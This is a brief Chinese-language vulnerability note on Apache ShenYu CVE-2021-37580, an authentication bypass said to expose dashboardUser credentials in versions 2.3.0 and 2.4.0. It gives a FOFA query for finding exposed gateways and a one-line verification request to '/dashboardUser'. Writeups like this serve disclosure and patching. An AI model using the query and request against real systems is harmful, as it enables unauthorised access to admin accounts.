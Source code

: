 # Apache ShenYu dashboardUser 账号密码泄漏漏洞 CVE-2021-37580

## 漏洞描述

Apache ShenYu Admin爆出身份验证绕过漏洞，攻击者可通过该漏洞绕过JSON Web Token (JWT)安全认证，直接进入系统后台。 Apache ShenYu 是应用于所有微服务场景的，可扩展、高性能、响应式的 API 网关解决方案。

## 漏洞影响

```
Apache ShenYu 2.3.0
Apache ShenYu 2.4.0
```

## FOFA

```
title=="ShenYu Gateway"
```

## 漏洞复现

登录页面

![image-20220525161442379](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251614427.png)

验证POC

```
/dashboardUser
```

![image-20220525161531420](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251615480.png)